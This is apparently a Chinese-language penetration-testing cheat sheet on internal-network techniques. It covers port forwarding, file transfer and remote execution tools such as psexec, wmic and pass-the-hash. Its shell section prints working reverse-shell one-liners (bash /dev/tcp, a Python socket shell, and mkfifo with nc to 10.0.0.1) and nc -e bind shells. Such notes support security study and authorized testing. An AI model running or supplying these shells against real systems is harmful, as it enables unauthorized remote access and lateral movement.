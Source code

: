 其他
========================================

端口转发
----------------------------------------
- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks

获取shell
----------------------------------------
- 常规shell反弹

::

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- 突破防火墙的imcp_shell反弹
- 正向shell

::

    nc -e /bin/sh -lp 1234
    nc.exe -e cmd.exe -lp 1234

内网文件传输
----------------------------------------
- windows下文件传输
    - powershell
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

